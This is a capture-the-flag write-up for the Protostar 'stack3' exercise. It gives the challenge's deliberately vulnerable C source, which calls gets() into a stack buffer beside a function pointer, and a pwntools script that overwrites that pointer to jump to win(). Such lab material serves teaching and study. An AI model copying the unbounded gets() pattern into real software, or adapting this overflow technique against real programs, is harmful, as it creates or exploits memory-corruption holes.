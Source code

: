 ## Challenge Description

Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

Hints

- both gdb and objdump is your friend you determining where the win() function lies in memory.

This level is at /opt/protostar/bin/stack3

## Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

## Solution

```python
from pwn import *

target = process("./stack3")
elf = context.binary = ELF("./stack3", checksec = False)
context.log_level = "debug"

win = elf.sym.win

payload = b"0"*64 + p32(win)

target.sendline(payload)
target.interactive()
```